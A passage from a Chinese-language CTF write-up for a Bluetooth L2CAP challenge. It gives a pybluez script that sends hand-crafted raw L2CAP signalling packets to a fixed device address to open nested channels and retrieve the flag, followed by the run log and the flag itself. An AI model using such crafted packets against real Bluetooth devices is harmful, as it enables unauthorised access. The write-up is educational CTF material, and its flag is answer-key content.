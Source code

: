 完成题目需要与目标建立L2CAP连接，并发送数据，所以可以参考 [pybluez](https://github.com/pybluez/pybluez) 的 [l2capclient.py](https://github.com/pybluez/pybluez/blob/master/examples/simple/l2capclient.py) 建立连接，最终的解题脚本如下：

```python
#!/usr/bin/env python3
import sys
import bluetooth

sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)
addr = "A6:50:92:5A:93:14"
port = 0x1031

recv = lambda       :  (print("[+] recv: "+str(sock.recv(1024))))
send = lambda data  :  (sock.send(bytes.fromhex(data)), print("[+] send: "+str(data)), recv())

print("[+] Trying to connect to %s on PSM %s..." % (addr,hex(port)))
sock.connect((addr, port))
print("Connected\n")
recv()

send('060001000aff0200ffff')
send('0800010002ff040041104000')
send('0800010004ff040041000F00')

recv()

send('0a004100060001000aff0200ffff')
send('0c0041000800010002ff040051104000')
send('0c0041000800010004ff040042000F00')

recv()

send('0800410004004200666c6167')
sock.close()
```

ubuntu21.04下我的蓝牙外设不稳定，后续攻击过程不需要`bluescan`，最终在ubuntu16.04下稳定执行：

```python
➜  python3 send_l2cap.py
[+] Trying to connect to A6:50:92:5A:93:14 on PSM 0x1031...
Connected

[+] recv: b'Level1:ConnectMe'
[+] send: 060001000aff0200ffff
[+] recv: b'\x16\x00\x01\x00\x0b\xff\x12\x00\xff\xff\x00\x00PSM1041ForConn'
[+] send: 0800010002ff040041104000
[+] recv: b'\x0c\x00\x01\x00\x03\xff\x08\x00A\x00@\x00\x00\x00\x00\x00'
[+] send: 0800010004ff040041000F00
[+] recv: b'\n\x00\x01\x00\x05\xff\x06\x00@\x00\x00\x00\x00\x00'
[+] recv: b'\x1e\x00@\x00Level1:Passed,Level2:ConnectMe'
[+] send: 0a004100060001000aff0200ffff
[+] recv: b'\x1a\x00@\x00\x16\x00\x01\x00\x0b\xff\x12\x00\xff\xff\x00\x00PSM1051ForConn'
[+] send: 0c0041000800010002ff040051104000
[+] recv: b'\x10\x00@\x00\x0c\x00\x01\x00\x03\xff\x08\x00B\x00@\x00\x00\x00\x00\x00'
[+] send: 0c0041000800010004ff040042000F00
[+] recv: b'\x0e\x00@\x00\n\x00\x01\x00\x05\xff\x06\x00@\x00\x00\x00\x00\x00'
[+] recv: b'\'\x00@\x00#\x00@\x00WantGetFlag?SendMeInfoPayload"flag"'
[+] send: 0800410004004200666c6167
[+] recv: b'#\x00@\x00\x1f\x00@\x00flag{br0h1pIt_l@cab_watrx0sHka}'
```
